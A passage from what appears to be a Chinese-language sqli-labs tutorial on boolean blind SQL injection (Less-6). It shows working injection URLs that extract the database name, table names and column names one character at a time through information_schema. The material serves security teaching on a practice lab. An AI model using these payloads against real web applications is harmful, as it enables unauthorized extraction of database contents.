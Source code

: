 ### 1.2.1.爆库

```bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" and ascii(substr((select database()),1,1))=115 --+
```

![bool8](/images/sqlall/bool8.jpg)

```bash
其他URL:101—>'e'
http://sqli-labs.me:8888/Less-6/?id=1" and ascii(substr((select database()),2,1))=101 --+
```

注意:超出字符长度时,设置最小ascii字符,也会报错,说明字符已经猜解完毕

```bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" and ascii(substr((select database()),9,1))>65 --+
```

### 1.2.2.爆表

```bash
URL:101—>'e'
http://sqli-labs.me:8888/Less-6/?id=1" and ascii(substr((select table_name from information_schema.tables where
table_schema='security' limit 0,1),1,1))=101 --+
```

![bool9](/images/sqlall/bool9.jpg)

```bash
其他URL:
http://sqli-labs.me:8888/Less-6/?id=1" and ascii(substr((select table_name from information_schema.tables where
table_schema='security' limit 0,1),2,1))=109 --+
```

和上面一样修改部分数字即可;表名:users、emails等:

### 1.2.3.爆字段

```bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" and ascii(substr((select column_name from information_schema.columns where
table_name='users' limit 0,1),1,1))=105 --+
```

![bool10](/images/sqlall/bool10.jpg)

```bash
其他URL:
http://sqli-labs.me:8888/Less-6/?id=1" and ascii(substr((select column_name from information_schema.columns where
table_name='users' limit 0,1),2,1))=100 --+
```

